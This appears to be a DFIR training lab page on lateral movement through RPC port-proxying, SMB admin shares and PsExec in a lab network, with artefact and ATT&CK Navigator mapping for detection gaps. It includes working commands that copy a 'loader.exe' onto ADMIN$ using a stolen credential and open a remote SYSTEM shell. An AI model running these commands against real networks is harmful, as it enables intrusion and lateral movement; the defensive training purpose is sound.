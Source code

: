 ```yaml
---
layout: post
title: "7.7 Pivot Lab – RPC & SMB Pivoting"
date: 2025-06-22
permalink: /modules/7/pivot-lab/
excerpt: >
  A step‑by‑step lab where you pivot from an initial beach‑head to multiple
  internal hosts using RPC and SMB admin shares, capture artefacts, and turn the
  results into an ATT&CK Navigator layer.
header:
  overlay_image: /assets/images/pivot-lab-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “Mastering east‑west movement is the DFIR equivalent of chess end‑games—every move must be mapped and explained.”  
> — Pivot‑Lab Instructor

## 1 • Lab Objectives

| Goal                           | ATT&CK Technique(s)          |
|--------------------------------|------------------------------|
| Enumerate reachable sub‑nets   | **T1046** Network Service Discovery |
| Pivot via RPC `portproxy`      | **T1021.002** SMB, **T1021.004** RPC |
| Execute remote commands (PsExec)| **T1569.002** Service Execution |
| Collect & map artefacts        | Create Navigator layer for Module 7 |

---

## 2 • Environment

| Role              | Hostname | IP            | Notes                                   |
|-------------------|----------|---------------|-----------------------------------------|
| Beach‑head (low)  | **WS‑01**| 10.0.10.25    | Stolen user creds                       |
| Jump Box (mid)    | **WS‑02**| 10.0.20.15    | RPC allowed from WS‑01 → Server VLAN    |
| File Server       | **FS‑01**| 10.0.30.5     | Admin share for data staging            |
| Domain Controller | **DC‑01**| 10.0.40.10    | Target high‑value host                  |

---

## 3 • Tasks & Commands

### 3.1 Enumerate SMB & RPC on WS‑02
```bash
nmap -p 445,135 10.0.20.15 -oG ws02_scan.gnmap
```

### 3.2 Create RPC Port‑Proxy (WS‑01 → WS‑02)
```cmd
netsh interface portproxy add v4tov4 listenport=8445 listenaddress=127.0.0.1 \
    connectport=445 connectaddress=10.0.20.15
```
*Maps local 8445 to WS‑02 445.*

### 3.3 Access Admin Share Through Proxy
```cmd
net use \\127.0.0.1@8445\ADMIN$ /user:corp\svc Password1!
copy loader.exe \\127.0.0.1@8445\ADMIN$\loader.exe
```

### 3.4 Pivot Again – PsExec to FS‑01
```cmd
psexec.exe \\FS-01 -s cmd.exe
```
*Tag as **T1021.002**; watch Sysmon 3 on WS‑02 & FS‑01.*

---

## 4 • Artefact Checklist

| Artefact                           | Location / Log                          | Technique Map |
|------------------------------------|-----------------------------------------|---------------|
| `netsh portproxy` registry keys    | `HKLM\SYSTEM\CurrentControlSet\services\PortProxy` | T1021.004 |
| Event 5140 “ADMIN$” share access   | Security.evtx (WS‑02 / FS‑01)           | T1021.002 |
| PsExec service **psexesvc**        | System.evtx (FS‑01) + service registry  | T1021.002 |
| Zeek conn.log spike on 445/135     | Sensor on Server VLAN                   | T1046 |

---

## 5 • Build the Navigator Layer

1. Export artefact list → `pivot_lab_layer.json`  
2. Color‑code techniques:  
   - **Green** — Detected by SIEM  
   - **Red**   — Not visible (gap)

Sample layer snippet:
```json
{
  "techniques": [
    { "techniqueID": "T1021.002", "color": "#ff6666", "comment": "PsExec not logged on FS‑01" },
    { "techniqueID": "T1021.004", "color": "#66b266", "comment": "Port‑proxy registry key detected" }
  ]
}
```

---

## 6 • Deliverables

| Item                         | Format                 |
|------------------------------|------------------------|
| **Pivot Timeline**           | Markdown / CSV         |
| **Navigator Layer**          | `pivot_lab_layer.json` |
| **Detection Gaps Report**    | 1‑page PDF             |

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://attack.mitre.org/techniques/T1021/" target="_blank">ATT&CK T1021 Remote Services</a></li>
    <li><a href="https://learn.microsoft.com/windows-server/administration/windows-commands/netsh-interface-portproxy" target="_blank">netsh portproxy Documentation</a></li>
    <li><a href="https://docs.microsoft.com/sysinternals/downloads/psexec" target="_blank">Sysinternals PsExec</a></li>
    <li><a href="https://github.com/BloodHoundAD/bloodhound" target="_blank">BloodHound for Navigator import</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/8/collection-exfil-impact/" class="next-link">Module 8 Start → Collection, Exfiltration & Impact</a>